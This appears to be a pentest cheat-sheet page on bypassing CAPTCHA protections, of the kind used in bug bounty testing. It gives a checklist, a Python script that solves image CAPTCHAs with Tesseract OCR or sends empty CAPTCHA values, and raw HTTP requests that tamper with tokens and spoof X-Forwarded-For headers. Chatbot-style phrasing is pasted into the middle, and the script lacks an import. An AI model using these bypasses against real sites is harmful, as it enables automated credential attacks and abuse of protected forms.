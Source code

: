 # CAPTCHA

[**Captcha Bypass via response manipulation**](https://bugcrowd.com/disclosures/55b40919-2c02-402c-a2cc-7184349926d7/login-capctha-bypass)

It seems like you're looking for a way to handle CAPTCHA on a website for an automation task. Here’s a structured approach based on your points:

1. **Do not send the parameter related to the CAPTCHA.**
   * [ ] When making a request, omit the CAPTCHA parameter entirely to see how the server responds.
2. **Change from POST to GET or other HTTP Verbs.**
   * [ ] Experiment with changing the HTTP method of your request from POST to GET, or try other methods like PUT or DELETE, depending on what the endpoint supports.
3. **Change to JSON or from JSON.**
   * [ ] If the request is currently sending data as form-encoded, try sending it as JSON instead, or vice versa.
4. **Send the CAPTCHA parameter empty.**
   * [ ] Include the CAPTCHA parameter in the request but leave its value empty to see how the server responds.
5. **Check if the value of the CAPTCHA is in the source code of the page.**
   * [ ] Inspect the HTML source code of the page to see if the CAPTCHA value is embedded directly.
6. **Check if the value is inside a cookie.**
   * [ ] Look for cookies set by the server which might contain the CAPTCHA value or related information.
7. **Try to use an old CAPTCHA value.**
   * [ ] Reuse an old CAPTCHA value to check if it’s still valid.
8. **Check if you can use the same CAPTCHA value several times with the same or different session ID.**
   * [ ] Test the reuse of CAPTCHA values with the same session ID and with different session IDs to see if it’s possible to bypass it.
9. **If the CAPTCHA consists of a mathematical operation, try to automate the calculation.**
   * [ ] Automate the solution of mathematical CAPTCHAs using a script.
10. **If the CAPTCHA consists of reading characters from an image, check manually or with code how many images are being used and if only a few images are being used, detect them by MD5.**
    * [ ] Manually analyze or write a script to identify unique CAPTCHA images and use their MD5 hashes for recognition.
11. **Use an OCR** [**Tesseract OCR**](https://github.com/tesseract-ocr/tesseract)**.**
    * [ ] Use Tesseract OCR to automate the reading of text-based CAPTCHA images.
12. **Online services to bypass CAPTCHAs (e.g., Capsolver).**
    * [ ] Consider using online CAPTCHA solving services like Capsolver.

Here's an example of using Python with requests and Tesseract OCR for handling text-based CAPTCHA images:

```python
import requests
from PIL import Image
import pytesseract

# Function to get CAPTCHA image and solve it
def solve_captcha(image_url):
    response = requests.get(image_url)
    img = Image.open(BytesIO(response.content))
    captcha_text = pytesseract.image_to_string(img)
    return captcha_text.strip()

# Example request without CAPTCHA parameter
response = requests.get("https://example.com/api/endpoint")
print(response.text)

# Example request with empty CAPTCHA parameter
response = requests.post("https://example.com/api/endpoint", data={"captcha": ""})
print(response.text)

# Example request with CAPTCHA parameter solved using OCR
captcha_text = solve_captcha("https://example.com/captcha/image")
response = requests.post("https://example.com/api/endpoint", data={"captcha": captcha_text})
print(response.text)
```

Ensure you have the necessary permissions and are compliant with the website's terms of service when performing these actions.

## Bypass Captcha (Google reCAPTCHA)



1. Try changing the request method, for example POST to GET

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET

```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```

2. Try remove the value of the captcha parameter

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter

```
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```

Convert to normal request

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Try this to bypass

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
